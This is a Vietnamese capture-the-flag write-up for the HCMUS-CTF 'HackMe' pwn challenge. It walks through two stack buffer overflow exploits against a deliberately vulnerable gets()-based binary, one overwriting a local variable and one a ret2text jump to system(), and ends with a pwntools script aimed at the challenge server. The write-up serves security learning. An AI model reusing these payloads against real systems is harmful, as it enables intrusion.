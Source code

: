 ## ⚡ [HackMe](https://ctf.hcmus.edu.vn/challenges#HackMe)

[![df](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)
[![df](https://img.shields.io/badge/member-viplazy-brightgreen.svg)](https://img.shields.io/badge/member-viplazy-brightgreen.svg)
[![df](https://img.shields.io/badge/100-pts-brightgreen.svg)](https://img.shields.io/badge/100-pts-brightgreen.svg)

Tác giả: `pakkunandy`



Tags: `pwn` `bof`  `stack` `variable`  `ret2text`

<!--
### Challenge Description
-->

### Summary

Đây vẫn là challenge về buffer overflow. 

Tham khảo hướng dẫn giải chi tiết về dạng đề này thông qua [SimpleBOF](../SimpleBOF/README.md) challenge.


Đầu tiên, kiểm tra thông tin binary:

```bash
$ checksec hackme
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Chương trình này chạy trên nhân x86, đã tắt hầu hết các bảo vệ.

Mở chương trình với **IDA**, ta kiểm tra hàm **main**:

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _x86_get_pc_thunk_ax();
  setup();
  check_authentication();
  return 0;
}
```
Chỉ duy nhất lời gọi tới hàm **check_authentication** tại đây.

```cpp
int check_authentication()
{
  char s; // [sp+0h] [bp-28h]@1

  puts("============== HCMUS-CTF WELCOME =============");
  puts("[+] Username: ");
  gets(&s);
  if ( !strcmp(&s, "Only-C") )
    check_password();
  return 0;
}
```
Hàm này kiểm tra người dùng nhập vào username, nếu bằng "Only-C" thì tiếp tục kiểm tra mật khẩu qua hàm **check_password**.

```cpp
int check_password()
{
  char s; // [sp+8h] [bp-20h]@1
  int v2; // [sp+1Ch] [bp-Ch]@1

  v2 = -1430532899;
  puts("[+] Password: ");
  gets(&s);
  if ( !strcmp(&s, "LoveM-TP") )
    puts("******** Access Granted ********");
  if ( v2 == -17885688 )
  {
    puts("You got the secret");
    system("/bin/cat flag.txt");
    exit(0);
  }
  return 0;
}
```

Ta thấy flag được in ra ở câu lệnh `system("/bin/cat flag.txt")`, tuy nhiên biểu thức điều kiện ở trước nó lại tự không thỏa mãn, và ta cũng không được phép chỉnh sửa biến `v2`. 




Trên thực tế, ta có thể lợi dụng lỗ hổng của hàm `gets` (không giới hạn số kí tự nhập) khi đọc password để ghi đè lên vùng nhớ của biến v2, hoặc tiếp tục ghi đè lên vùng nhớ của địa chỉ trả về của hàm **check_password** để chuyển địa chỉ lệnh trực tiếp vào trong biểu thức điều kiện để lấy được flag.

Ta sẽ chạy cả 2 cách trên tại đây!

### Exploit #1 Local variable

- Xây dựng payload

    Dựa vào đoạn mã ở trên, ta tính offset từ biến `s` (tại đỉnh stack) đến biến `v2` như sau:
    ```python
    offset = [sp+1Ch] - [sp+8h]  = 0x14 = 20
    ```

    Giá trị mới của **v2** sẽ là -17885688 chuyển qua biểu diễn ở hệ hexa:
    ```python
    >>> hex(-17885688 & (2**32-1))
    '0xfeef1608'
    >>> p32(0xfeef1608)
    b'\x08\x16\xef\xfe'
    ```

    Cấu trúc payload: `payload = Username + NewLine + "A" * offset + v2`

    ```python
    payload = "Only-C\n" + "A"*20 + "\x08\x16\xef\xfe"
    ```

- Local exploit
    
    ```bash
    $ python -c 'print "Only-C\n" + "A"*20 + "\x08\x16\xef\xfe"' | ./hackme
    ============== HCMUS-CTF WELCOME =============
    [+] Username:
    [+] Password:
    You got the secret
    /bin/cat: flag.txt: No such file or directory
    ```

    Thành công, ta chạy trên server và lấy flag thôi!

### Exploit #2 Funtion argument

Chi tiết về phương pháp này sẽ được trình bày ở [ChampionLeague]("../ChampionLeague/README.md") challenge.

- Tìm vị trí địa chỉ trả về của hàm **check_password**
    ```bash
    $ python -c 'print "Only-C\n" + "A"*36 + "BBBB"' | strace ./hackme
    --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x42424242} ---
    +++ killed by SIGSEGV (core dumped) +++
    Segmentation fault (core dumped)
    ```

    Như vậy, ta cần có **36** bytes offset.




- Lấy địa chỉ gọi câu lệnh system call thông qua `gdb`:

    ```peda
    gdb-peda$ disass check_password
    Dump of assembler code for function check_password:
    ...
    0x080486c2 <+132>:   lea    eax,[ebx-0x17cc]
    0x080486c8 <+138>:   push   eax
    --> 0x080486c9 <+139>:   call   0x8048420 <system@plt>
    0x080486ce <+144>:   add    esp,0x10
    ...
    ```

    Kết quả: **`0x080486c9`**

- Lấy địa chỉ của chuỗi `bin/cat flag.txt`:
    
    ```bash
    $ ROPgadget --binary hackme --string '/bin/cat flag.txt'
    Strings information
    ============================================================
    0x08048834 : /bin/cat flag.txt
    ```
    Ta biết trong binary có chuỗi này vì đã dễ dàng nhìn thấy nó ở **IDA**, và sẽ dùng địa chỉ này như 1 tham số để truyền vào hàm `system`.

    Kết quả: **`0x08048834`**

- Local exploit
    
    Cấu trúc payload: `payload = Username + NewLine + "A" * offset + system_addr + arg1`

    ```python
    payload = "Only-C\n" + "A"*36 + "\xc9\x86\x04\x08" + "\x34\x88\x04\x08"
    ```

    Kết quả:
    
    ```bash
    $ python -c 'print "Only-C\n" + "A"*36 + "\xc9\x86\x04\x08" + \
    > "\x34\x88\x04\x08"' | ./hackme
    ============== HCMUS-CTF WELCOME =============
    [+] Username:
    [+] Password:
    /bin/cat: flag.txt: No such file or directory
    ```

    Thành công, ta chạy trên server và lấy flag thôi!

## Code

```python
#!/usr/bin/env python

from pwn import *

p = remote("159.65.13.76", 63002)
#p = process("./hackme")

print(p.recvuntil("Username:"))

# This for exploit #1
v2 = 0xfeef1608
payload1 = 'Only-C\n' + 'A'*20 + p32(v2)

# This for exploit #2
syscall_addr = 0x080486c9
bincat_addr = 0x08048834

payload2 = 'Only-C\n' + 'A'*36 + p32(syscall_addr) + p32(bincat_addr)


# default payload1
payload = payload1

p.sendline(payload)
p.interactive()
```


📫 Flag: **`HCMUS-CTF{}`**

---
*[Back to table of contents](../README.md)*
